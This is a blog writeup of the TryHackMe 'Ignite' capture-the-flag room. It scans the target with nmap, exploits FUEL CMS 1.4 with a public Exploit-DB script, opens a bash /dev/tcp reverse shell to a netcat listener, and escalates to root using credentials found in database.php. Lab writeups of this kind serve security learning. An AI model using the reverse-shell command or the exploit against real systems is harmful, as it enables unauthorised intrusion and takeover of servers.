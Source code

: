 ```yaml
---
title: "Ignite Writeup THM"
description: "My writeup of the TryHackMe room [Ignite](https://tryhackme.com/room/ignite)"
date: 2024-01-10
image: https://images.unsplash.com/photo-1546182208-1e70985e2bf3?q=80&w=2592&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
categories:
    - Room
    - Easy
---
```


I am going to start with a nmap scna:

```bash
nmap -sC -sV 10.10.10.167
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 11:40 EST
Nmap scan report for 10.10.10.167
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.67 seconds
```

We see that it has a web page running on “FUEL CMS”

![Untitled](https://raw.githubusercontent.com/Blueaulo/Ignite-writeup-THM/main/8a3dca11-ee82-426e-a7dc-155184a6b3cf_Export-dee501f9-607d-4822-af96-36e7c2ca8801/Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled.png)

We see that it’s running version 1.4 which is vulnerable.

From the nmap scan we also know that it has the robots.txt and fuel directories:

```bash
User-agent: *
Disallow: /fuel/
```

![Untitled](https://raw.githubusercontent.com/Blueaulo/Ignite-writeup-THM/main/8a3dca11-ee82-426e-a7dc-155184a6b3cf_Export-dee501f9-607d-4822-af96-36e7c2ca8801/Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled%201.png)

Now I am going to use an exploit that works with fuel cms 1.4:

https://www.exploit-db.com/exploits/50477:

```bash
python3 50477.py -u http://10.10.10.167/
[+]Connecting...
Enter Command $whoami
systemwww-data
```

Ok now I am going to start a proper reverse shell.

`bash -i >& /dev/tcp/10.11.65.91/4444 0>&1`

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.113.174] 34452
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

From there I just searched the web directory, and found the config folder.

In there there was a file named database.php, which contains the root credentials

```bash
su root
Password:

root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```
